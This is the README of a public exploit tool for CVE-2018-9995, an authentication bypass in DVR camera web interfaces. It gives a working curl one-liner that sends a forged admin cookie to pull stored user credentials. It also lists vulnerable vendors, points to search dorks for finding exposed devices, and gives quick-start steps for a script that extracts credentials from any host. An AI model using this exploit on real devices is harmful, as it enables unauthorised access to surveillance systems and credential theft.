 [Tool] show DVR Credentiales
[*] Exploit Title:       "Gets DVR Credentials" 
[*] CVE:                 CVE-2018-9995
[*] CVSS Base Score v3:  7.3 / 10
[*] CVSS Vector String:  CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N  
[*] Date:                09/04/2018
[*] Exploit Author:      Fernandez Ezequiel ( twitter:@capitan_alfa )
DVR_wall

Exploit:
	$> curl "http://<dvr_host>:<port>/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"

tested in DVR (banner/vendor ?):
Novo
CeNova
QSee
Pulnix
XVR 5 in 1 (title: "XVR Login")
Securus,  - Security. Never Compromise !! - 
Night OWL
DVR Login
HVR Login
MDVR Login
On the Wild:
DVR_dorks_0 DVR_dorks_2 DVR_dorks_1 DVR_dorks_3

Possible Banners frontend (web):
DVR_login_1 DVR_login_2 DVR_login_3 DVR_login_4 DVR_login_5 DVR_login_6 DVR_login_7 DVR_login_8 DVR_login_10

Indoor:
DVR_indoor_1 DVR_indoor_2 DVR_indoor_3 DVR_indoor_4 DVR_indoor_5 DVR_indoor_6 DVR_indoor_7

TOOL: "Show all DVR Credentials"
Quick start
usr@pwn:~$ git clone https://github.com/ezelf/CVE-2018-9995_dvr_credentials.git
usr@pwn:~$ cd CVE-2018-9995_dvr_credentials
usr@pwn:~$ pip install -r requirements.txt
help
usage: getDVR_Credentials.py [-h] [-v] --host HOST [--port PORT]

[+] Obtaining Exposed credentials

optional arguments:
  -h, --help     show this help message and exit
  -v, --version  show program's version number and exit
  --host HOST    Host
  --port PORT    Port

[+] Demo: python getDVR_Credentials.py --host 192.168.1.101 -p 81
Pocs (Output) :
DVR_poc_4 DVR_poc_3 DVR_poc_2 DVR_poc_1

Blog:
http://misteralfa-hack.blogspot.cl/2018/04/update-dvr-login-bypass-cve-2018-9995.html

I see you... ! xd
